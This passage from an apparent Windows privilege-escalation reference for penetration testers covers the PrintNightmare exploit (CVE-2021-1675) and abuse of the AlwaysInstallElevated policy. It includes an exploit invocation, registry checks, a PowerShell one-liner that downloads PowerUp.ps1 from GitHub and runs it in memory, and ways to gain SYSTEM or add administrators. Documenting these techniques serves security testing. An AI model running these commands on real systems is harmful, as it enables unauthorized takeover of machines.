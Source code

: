 Alternatively, the [`SharpPrintNightmare` `C#`
implementation](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)
can be used for local privilege escalation purposes (in addition to remote code
execution):

```
SharpPrintNightmare.exe "<FULL_PATH_DLL>"
```

`CVE-2021-1675.ps1` and `SharpPrintNightmare` (in `LPE` mode) present the
advantage of not relying on the `RPC` or `SMB` protocols as the
`AddPrinterDriverEx` and `EnumPrinterDrivers` APIs are called directly.

### AlwaysInstallElevated policy

Windows provides a mechanism which allows unprivileged users to install Windows
installation packages, `Microsoft Windows Installer Package (MSI)` files,
with `NT AUTHORITY\SYSTEM` privileges. This policy is known as
`AlwaysInstallElevated`.

If activated, this mechanism can be leveraged to elevate privileges on the
system by executing code through the `MSI` during the installation process as
`NT AUTHORITY\SYSTEM`.

The Windows built-in `req` utility and the `PowerUp` PowerShell script can be
used to check whether the `AlwaysInstallElevated` policy is enabled on the
host by querying the associated registry key:

```
# If "REG_DWORD 0x1" is returned the policy is activated.
# If not, the error message "ERROR: The system was unable to find the specified registry key or value." indicates that the policy is not set.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# (PowerShell) PowerSploit's PowerUp Get-RegistryAlwaysInstallElevated.
PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
PS> Get-RegistryAlwaysInstallElevated
```

The policy can be abused to elevate privileges:

  - By executing a given binary or `bat` script through a specifically crafted
    `MSI` installer using the
    [`MSI Wrapper`](https://www.exemsi.com/download/) graphical application or
    `msfvenom`.

  - By adding a local user to the local `Administrators` group using the
    `MSI` installer embedded in the `PowerUp`'s `Write-UserAddMSI` PowerShell
    cmdlet. The cmdlet will open a graphical interface to specify the user to
    be added.

  - Through a `meterpreter` session using the `Metasploit`'s
    `exploit/windows/local/always_install_elevated` module. The module will
    prevent the installation from succeeding to avoid the registration of the
    program on the system.
